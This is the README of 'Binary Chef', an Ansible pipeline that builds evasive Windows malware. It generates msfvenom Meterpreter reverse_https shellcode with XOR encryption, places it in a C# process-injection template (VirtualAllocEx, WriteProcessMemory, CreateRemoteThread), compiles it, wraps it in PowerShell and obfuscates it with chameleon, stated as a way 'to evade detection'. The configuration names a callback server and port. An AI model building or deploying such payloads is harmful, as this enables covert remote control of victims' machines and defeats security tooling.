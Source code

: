 
# Binary Chef

As of 2/1/2023, you can build executables, convert it to powershell, and obfuscate the *.ps1 automatically.

This tool will help you with compiling executable binaries automatically.
Using the Jinja Template of C# file, it accomplish auto insertion of code block.

the execution steps are as in the following.

1. Uses msfencoder (msfvenom) to automatically create and encrypt the payload.
2. Based on Jinja template file of C#, it places the payload in the desired location in the C# source code.
3. Automatically compile C# files on Windows.
4. Encode the executables in base64 format, Import it to powershell module. 
5. Obfuscate Powershell script with chameleon, to evade detection.


*You'll need to have a simple infrastructure as in the image below.*


![graph](./image.png)

# Requirement


### Windows(Remote)

Run `Setup/ConfigureWinrmHTTPS.ps1` on your `windows` machine first to configure WinRM Service to enable HTTPS.
Ansible will need to connect via HTTPS.

> Please note that you need to have Visual Studio and .NET package installed on the windows machine.
> I have only have tested Visual Studio are "Visual Studio 2022 Community Version".


### Linux(Remote)

Just use Kali Linux.


### LocalMachine(Linux/MacOS)

### Connection option

Configure the allocated IP for each Kali and Windows VM such as in the following format.

```yaml
[kali]
169.254.217.2

[kali:vars]
ansible_host=169.254.217.2
ansible_port=22
ansible_ssh_user=XXXXX
ansible_python_interpreter=python3
# Optional for SSH
# ansible_ssh_private_key_file=~/.ssh/kali.private

[windows]
169.254.217.3

[windows:vars]
ansible_host=169.254.217.3
ansible_user=XXXXX
ansible_password=XXXXX
ansible_connection=winrm
ansible_port=5986
ansible_winrm_server_cert_validation=ignore
ansible_winrm_scheme=https
#ansible_python_interpreter=c:\Python\python
ansible_python_interpreter=python3 
# Option for SSH
ansible_ssh_private_key_file=~/.ssh/win11.private
```

### Compiling option

you need `pip3 install pywinrm` to access windows with Ansible remotely.

Once you are able to connect to VMs, you need to specify the variables in `groups_vars/all.yaml`.

variable you need to change are `msfencoder` arguments and `compiler`.

```md
---

# Linux
## MsfEncode arguments
msfencoder 169.254.217.2 443 cs xor 0xfa windows/meterpreter/reverse_https
server: 169.254.217.2
ports: 443
format: 'cs'
encrypt_method: 'xor'
encrypt_key: '0xfa'
payload: 'windows/meterpreter/reverse_https'

# Local Machine
## j2 Templates
src: ../../../codemaker/src/*.j2
## To store executables
out: ../../../codemaker/out


# Windows 
## Temp Folder
tempdir: C:/Temp/
## CSC.exe compiler
compiler: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe
```

### Source Code Option

the souce code C# will be put under `codemaker/src/`. please make sure you have the extension appended `.j2` (Jinja template), otherwise Ansible won't be able to render and modify files.

Once you have the template files, insert `{{ payloadContent }}` to specify the insertion point of shellcode that will be inserted by `msfencoder`.

```csharp
using System;

        public static void Main(string[] args)
        {
            {{ payloadContent }}
        
            // write the code you want...
            VirtualAllocEx();
            WriteProcessMemory();
            CreateRemoteThread();
        }
```

### Running ansible

This will ask you password for Kali VM, to execute as SUDO.

```bash
ansible-playbook build-binary.yaml --ask-become-pass
ansible-playbook encode-command.yaml
```